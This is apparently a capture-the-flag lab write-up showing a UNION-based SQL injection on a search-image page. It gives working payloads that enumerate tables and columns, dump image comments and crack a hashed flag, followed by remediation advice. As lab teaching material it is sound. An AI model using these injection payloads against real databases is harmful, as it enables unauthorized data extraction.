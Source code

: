 ```
http://{IP_ADDRESS}/?page=searchimg
```

Actually, everything proceeds the same as in the [SQL Injection Member](../../SQL%20Injection%20Member/Resources/writeup.md) post.

```
1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database ()
```

We execute this query;

```
ID: 1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database () 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database () 
Title: list_images
Url : 
```

Then, since we know the table name;

```
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

```
[...]
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: id
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: url
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: title
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: comment
Url : list_images
[...]
```

You can query and check each one individually, but we will go straight to the result.

```
1 UNION SELECT id, comment FROM list_images
```

```
ID: -1 UNION SELECT id, comment FROM list_images 
Title: An image about the NSA !
Url : 1

ID: -1 UNION SELECT id, comment FROM list_images 
Title: There is a number..
Url : 2

ID: -1 UNION SELECT id, comment FROM list_images 
Title: Google it !
Url : 3

ID: -1 UNION SELECT id, comment FROM list_images 
Title: Earth!
Url : 4

ID: -1 UNION SELECT id, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5
```

We checked what this hash might be using the website we used in our previous project. You can use tools like `hashid` or any hash finder if you prefer.

```
https://www.dcode.fr/
```

We had it automatically analyzed and saw it was MD5, and when decrypted:

`albatroz`

```
 ~  echo -n "albatroz" | sha256sum

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
```

## How to fix

-   Use Prepared Statements. Data received from users is not directly included in SQL queries. Instead, data is bound to the query as parameters and processed securely by the database engine, which prevents SQL Injection attacks.

-   Restrict SQL account permissions to limit possible damage in case of an attack.

-   Hide error messages, even though this doesn't directly prevent SQL injection.

-   You can filter user inputs.

-   Use WAF (Web Application Firewall).